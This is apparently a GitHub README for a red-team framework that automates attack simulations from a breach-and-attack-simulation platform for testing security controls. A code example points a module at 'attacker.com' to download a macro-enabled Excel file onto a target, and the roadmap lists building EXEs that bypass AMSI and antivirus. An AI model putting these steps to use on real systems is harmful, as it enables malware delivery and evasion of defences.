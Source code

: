 # cymulate-framework

![](https://i.imgur.com/B9Z8nyQ.png)

- **Notice**: This project is still under development and not ready for production use.

## Introduction

The framework to automate Cymulate's modules and templates.

**What is Cymulate?**

> [Cymualte](https://cymulate.com/) is a BAS (Break and Attack Simulation) platform that provides a comprehensive set of attack simulations based on the **MITRE ATT&CK® framework** to test the effectiveness of your security controls.

This project is aimed to help red team construct fully customizable and automated APT attacks easily.

## Functionality

- [ ] Scrape modules and templates from Cymulate and transform them into scripts.
- [ ] Automate the execution of templates such as APT, Phishing, etc.
- [ ] Generate standalone EXE for templates and bypass AMSI, Antivirus

## Usage

Make sure `python 3.11+` and `poetry` are installed:

- **Python 3.11+** - https://www.python.org/downloads/
- **Poetry** - https://python-poetry.org/docs/#installation

```bash
git clone https://github.com/opabravo/cymulate-framework
cd cymulate-framework

# Install required python packages
poetry install

# Activate virtual environment
poetry shell

# Run default template (APT34)
python main.py

# Run desired execution module by id
python main.py <module_id>

# Ex:
python main.py 62385f03a0e69ed2274622cc
```

Batch Scripts:

- `client_start.bat` - Reset and update to the latest version of the framework then run `main.py`

## How it works

Cymulate's execution module have 5 main steps:

1. **Check dependency** - Check if required dependencies are installed.
2. **Execution** -Run the mitre ATT&CK technique execution.
3. **Success Indicate** - Check if the attack was successful via parsing execution output or check exit code.
4. **Output Parsing** - Parse the output of the execution for further uses.
5. **Cleanup** - Clean up the execution environment.

The framework will automate the execution of the above steps.

## Customization

We can pass self defined parameters to the execution module like this:

```python
# Import windows module from core
from core.module.windows import WindowsModule

# Create a windows module instance
execution = WindowsModule("62385f03a0e69ed2274622cc", debug=True)

# Update the input arguments to your own ones
execution.input_arguments.update({
    "download_file_url": "https://attacker.com/very_dangerous_excel.xlsx",
    "download_file_path": "$env:userprofile\Downloads\Income.xlsm",
})

# Execute the module after initialization
execution.run()
```

## Development

### Blueprint

- `Basic structure` - The basic structure of the project.
- `APT template` - APT template automation test.
- `Scrape modules and templates` - Scrape modules and templates via Cymulate's [API](https://api.app.cymulate.com/docs/#/)
- `Transform modules and templates` - Transform modules and templates into cymulate-framework modules.
- `Automate execution` - Automate the execution of templates.
- `APT Script generator` - Generate scripts for APT template with extracted specific execution scripts (don't wanna load the 20+mb json file) and load corresponding required 3rd party pip packages into scripts
- `Pack Script to EXE` - Pack generated template script with its requirements(pip packages, execution scripts) into EXE via `pyisntaller`, `py2exe` or `Nuitka`
- `ClI` - A CLI to interact with the framework.

### Notes

- Using `builtin dataclass` + `dacite` for JSON deserializing model instead of `pydantic` since `dacite` is enough for the purpose.

## Contributing

Feel free to submit pull requests and issues.

## License

[MIT](https://choosealicense.com/licenses/mit/)

